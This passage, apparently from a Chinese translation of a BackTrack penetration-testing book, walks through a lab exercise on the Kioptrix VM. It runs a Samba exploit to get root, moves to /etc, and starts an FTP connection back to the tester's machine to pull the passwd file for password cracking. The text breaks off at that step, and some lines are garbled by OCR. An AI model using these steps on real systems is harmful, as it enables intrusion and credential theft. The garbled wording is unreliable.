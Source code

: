 输出应类似于以下内容：

```
Connected to 192.168.75.12.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 17:02\. Server port: 21.
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (192.168.75.12:root): ftplogin
331 User ftplogin OK. Password required
Password:
230-User ftplogin has group access to: 7777
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>

```

### 注

Apple T0.生产与受控测试实验室环境：OUTT1。考虑在您的生产回溯实例中设置专用用户帐户和适当的安全措施。确保向 FTP 帐户提供写入文件所需的权限；当从受害者机器进行这些尝试时，预期会收到错误。

# 密码：你知道的东西…

在这个时代，人们会假设所有系统都使用多因素身份验证。不幸的是，情况并非如此。即使是所谓的“安全网络”也仍然使用发送明文密码的协议，系统使用的是不安全的加密协议，等等。一项基本技能（如国际象棋中的基本技能：易学难掌握）是破解密码的艺术。我们将从几个简单的例子开始，以巩固这个概念，然后讨论该领域中最优秀的人所使用的一些策略。

## 破解散列

忙碌的用户甚至管理员经常重复使用密码。无论系统在网络上有多重要，一旦您获得密码散列的访问权限，它们应该立即被破解并添加到您现有的任何字典文件中。这可能会节省大量时间。

首先，我们需要从受害者机器中提取一些文件。启动 BackTrack Tester 1 和 Kioptrix 1 级来宾计算机，运行您之前编译的漏洞利用，并向下拉 `passwd`文件，以便我们可以对其运行 Jack。

1.  启动实验室中所有必要的虚拟设备（回溯测试仪 1，Kioptrix）。
2.  运行 `./SambaVuln_10 -b 0 192.168.75.14`。
3.  您现在以 root 用户身份连接到 `kioptrix.level1`。
4.  打开一个新的终端会话并在回溯来宾机器上启动 `pure-ftpd`。
5.  在连接到 Kioptrix 机器的外壳中，使用 FTP 连接回溯机器上的 FTP 服务器：

    ```
    cd /etc

    ```

    ```
    ls

    ```

    ```
    ftp 192.168.75.12 
